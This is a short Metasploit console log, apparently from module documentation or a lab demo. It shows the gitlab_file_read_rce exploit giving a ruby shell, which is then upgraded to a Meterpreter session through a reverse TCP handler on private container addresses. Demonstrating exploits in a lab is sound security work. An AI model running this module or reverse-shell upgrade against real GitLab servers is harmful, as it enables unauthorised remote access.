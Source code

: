 ```

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 12
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.17.0.1:4433
[*] Sending stage (976712 bytes) to 172.17.0.2
[*] Meterpreter session 13 opened (172.17.0.1:4433 -> 172.17.0.2:56876) at 2020-12-06 19:53:42 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/http/gitlab_file_read_rce) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                      Connection
  --  ----  ----                   -----------                                                      ----------
  12        shell ruby/ruby                                                                         172.17.0.1:4444 -> 172.17.0.2:58026 (127.0.0.1)
  13        meterpreter x86/linux  git @ 5d733775a28a (uid=998, gid=998, euid=998, egid=998) @ 172  172.17.0.1:4433 -> 172.17.0.2:56876 (172.17.0.2)
                                   .17.0.2

msf6 exploit(multi/http/gitlab_file_read_rce) >
```
